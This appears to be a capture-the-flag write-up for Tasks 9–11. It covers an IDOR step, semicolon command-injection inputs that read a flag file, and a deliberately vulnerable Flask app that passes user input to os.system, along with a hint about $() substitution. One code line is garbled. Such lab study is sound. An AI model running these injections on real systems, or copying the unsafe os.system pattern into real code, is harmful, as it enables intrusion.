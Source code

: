 ### Task 9:
+ Use the credentials to log into the web application. Change user id in browser . Insecure Direct Object Reference (IDOR). Confirm Flag.

### Task 10:
+ Open website; inspect page; tried intercepting with BurpSuite; only POST and Response shows up, OK, it looks like this is a shell; used command injection:
```
; whoami
ubuntu
; ls -la
<response>
; cat flag.txt
Confirm flag
```

![alt text](image-2.png)
![alt text](image-4.png)

***Note: ; (semicolon) allows multiple commands sequentially. So used it to escape the first command that ran the .py script, then executed my queries.***

### Task 11:
+ In Task 10, when list file I've found the file name `app.py.save`.
+ Check it and this is code of Task 11:
```
Usage: python3 enc.py -r <recipient> -t <text>
from flask import Flask, request, render_template, send_file, abort
import os
import tempfile

app = Flask(__name__)
UPLOAD_FOLDER = tempfile.gettempdir()

@app.route("/", methods=["GET", "POST"])
def encrypt_file():
    if request.method == "POST":
        uploaded_file = request.files.get("file")
        recipient = request.form.get("recipient", "")
        
        if not uploaded_file:
            error = "No file uploaded."
            return render_template("encrypt.html", error=error)
        
        # Save the uploaded file
        filepath = os.path.join(UPLOAD_FOLDER, uploaded_file.filename)
        uploaded_file.save(filepath)
        
        # Allowed PGP keys
        allowed_recipients = [
            "ByteReaper", "NullPhantom", "Cipher",
            "ShadowPacket", "GhostTrace", "DarkInjector"
        ]
        
        # Check that the provided recipient is allowed.
        # (This check is too simplistic and can be bypassed if an attacker modifies the request)
        if recipient not in allowed_recipients:
            error = "Invalid encryption recipient selected."
            return render_template("encrypt.html", error=error)
        
        # Vulnerable command construction:
        # The command is built directly with user input, enabling injection if the value is manipulated.
        command = f"gpg --encrypt --recipient {recipient} --output {filepath}.gpg {filepath}"
        os.system(command)
        
        # Return the encrypted file for download
        return send_file(f"{filepath}.gpg", as_attachment=True)
    
    return render_template("encrypt.html")

if __name__ == "__main__":
    app.run(hots0st dssdsdsdebug=True)
```

+ The vuln appear in `command` and `os.system`.
+ Thinking `Command Injection` and potential param are `filepath` or `recipient` .
+ Found the syntax to exploit `Command Injection` and `RCE` that is  `$()`.
![alt text](image-5.png) 

***Note: `$(command)` is “command substitution”.  As you seem to understand, it runs the command, captures its output, and inserts that into the command line that contains the $()***
